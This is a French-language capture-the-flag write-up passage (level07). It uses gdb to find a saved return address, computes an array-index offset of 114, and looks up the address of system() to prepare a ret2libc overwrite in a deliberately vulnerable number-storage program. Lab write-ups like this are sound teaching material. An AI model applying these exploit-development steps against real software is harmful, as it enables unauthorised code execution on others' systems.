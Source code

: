 ```bash
Breakpoint 2, 0x0804892b in main ()
(gdb) i f
Stack level 0, frame at 0xffffd710:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704, eip at 0xffffd70c

```

On trouve donc l'adresse ==0xffffd70c==.

avec ceci on calcule l'offset:
> [addr return] - [addr tab] / 4
```bash
(0xffffd70c - 0xffffd544) / 4 = 0x72 soit 114
```

### recuperation de system et de "/bin/sh":

Pour recuperer l'adresse de __system__ il sufit que le prgramme troune dans __gdb__ avec un breakpoint et executer la commande __"info func system"__.

```bash
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: read

Breakpoint 2, 0x0804892b in main ()
(gdb) info func system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr

```
